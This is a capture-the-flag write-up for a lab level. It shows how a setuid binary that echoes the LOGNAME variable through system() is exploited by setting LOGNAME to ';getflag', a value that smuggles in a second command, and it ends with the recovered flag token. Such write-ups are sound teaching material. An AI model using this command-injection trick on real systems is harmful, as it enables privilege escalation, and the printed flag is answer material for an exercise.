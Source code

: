 # Level 07

## Resolution

As `level07`, running `ls` gives us a binary called `level07` inside our home folder. Using `ltrace` on it gives us the following...

```shell
  $> ltrace ./level07 
  __libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
  getegid()                                                            = 2007      
  geteuid()                                                            = 2007      
  setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                  = 0
  setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                  = 0
  getenv("LOGNAME")                                                    = "level07" 
  asprintf(0xbffff744, 0x8048688, 0xbfffff47, 0xb7e5ee55, 0xb7fed280)  = 18        
  system("/bin/echo level07 "level07
  <unfinished ...>
  --- SIGCHLD (Child exited) ---
  <... system resumed> )                                               = 0
  +++ exited (status 0) +++
```

> This binary checks for UID and GID of the user running it, then retrieves an environment variable: `LOGNAME` before outputing it via a `system` call.

So in order to exploit this binary, we simply have to modify what's inside `LOGNAME`. If we checks for more details with `ls -l`:

```shell
  $> ls -l
  total 12
  -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Once again, the binary is owned by `flag07` which has the right to use `getflag`. Escaping `echo` and calling `getflag` would give us the flag.

```shell
  $> export LOGNAME=";getflag" && ./level07 

  Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

So, `fiumuikeil55xe9cu4dood66h` is the flag for this level.
